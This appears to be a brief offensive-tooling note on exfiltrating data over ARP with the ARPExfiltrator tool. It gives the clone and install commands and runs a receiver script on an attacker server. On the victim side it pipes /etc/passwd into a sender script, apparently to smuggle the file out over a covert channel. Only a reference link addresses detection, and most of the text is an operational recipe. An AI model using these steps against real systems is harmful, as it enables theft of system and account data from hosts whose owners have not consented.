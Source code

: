 # ARP

## Server

### Installation

TODO: Re-arrange it at **Offensive Infrastructure** under **Setup Machine**

```
$ git clone https://github.com/nocommentlab/ARPExfiltrator.git
```

#### Dependencies

```
$ sudo apt install -y tcpdump
```

### Usage

```
# ./receiver.py
```

## Client

```
# cat /etc/passwd | ./sender.py
```

---
## References

### Source Repositories

- [nocommentlab: ARPExfiltrator](https://github.com/nocommentlab/ARPExfiltrator)

### APNIC

- [APNIC: How to Detect and Prevent Common Data Exfiltration Attacks](https://blog.apnic.net/2022/03/31/how-to-detect-and-prevent-common-data-exfiltration-attacks/)